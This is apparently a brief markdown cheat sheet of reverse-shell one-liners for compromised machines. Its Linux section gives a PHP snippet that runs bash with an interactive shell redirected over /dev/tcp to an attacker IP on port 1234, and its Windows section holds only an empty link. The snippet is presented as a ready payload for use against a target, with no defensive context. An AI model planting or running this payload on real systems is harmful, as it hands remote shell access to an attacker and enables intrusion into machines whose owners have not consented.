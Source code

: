 # Reverse Shells

Useful links and one liners to establish a connection to a compromised device.

---------------------------------------------------------------------------

# Linux Target

## PHP

Simple one-liner:
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacker ip>/1234 0>&1'");
?>
```

---------------------------------------------------------------------------

# Windows Target

## PHP

Useful links:
- [Link to RS]()